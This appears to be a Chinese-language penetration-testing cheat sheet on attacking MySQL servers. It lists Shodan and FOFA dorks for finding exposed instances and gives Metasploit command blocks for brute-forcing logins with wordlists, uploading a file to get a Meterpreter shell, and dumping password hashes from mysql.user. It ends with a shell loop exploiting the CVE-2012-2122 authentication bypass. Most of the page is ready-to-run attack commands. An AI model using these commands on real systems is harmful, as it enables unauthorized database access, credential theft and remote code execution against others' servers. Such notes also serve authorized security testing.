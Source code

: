 # Mysql

> shodan : "product:MySQL"
> fofa : app="Oracle-MySQL"

**描述**

MySQL 是一个关系型数据库管理系统，由瑞典 MySQL AB 公司开发，目前属于 Oracle 公司。MySQL 是一种关联数据库管理系统，MySQL 的 SQL 语言是用于访问数据库的最常用标准化语言。MySQL 软件采用了双授权政策，它分为社区版和商业版，一般中小型网站的开发选择 MySQL 作为网站数据库。

**Mysql 基础**
- [Mysql](../../../../Integrated/数据库/笔记/Mysql.md)

**Mysql 注入**
- [Mysql数据库注入笔记](../../Web安全/Web_Generic/SQLi.md#Mysql)

**MSF 爆破**
```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS [IP]
set USER_FILE [用户名字典]
set PASS_FILE [密码字典]
set STOP_ON_SUCCESS true
set THREADS 20
exploit
```

**MSF 上传文件执行**
```bash
use exploit/windows/mysql/scrutinizer_upload_exec
set RHOST [ip]
set USERNAME [user]
set PASSWORD [pass]
set payload windows/meterpreter/bind_tcp
set RHOST [ip]
set LPORT 4444
exploit
```

**MSF 获取 mysql.user 的 hash**
```bash
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS [ip]
set USERNAME [user]
set PASSWORD [pass]
set THREADS 20
exploit
```

**CVE-2012-2122 Mysql 身份认证绕过漏洞**
- 漏洞描述

    当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是 memcmp() 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库。

- POC | Payload | exp
    ```
    for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
    ```
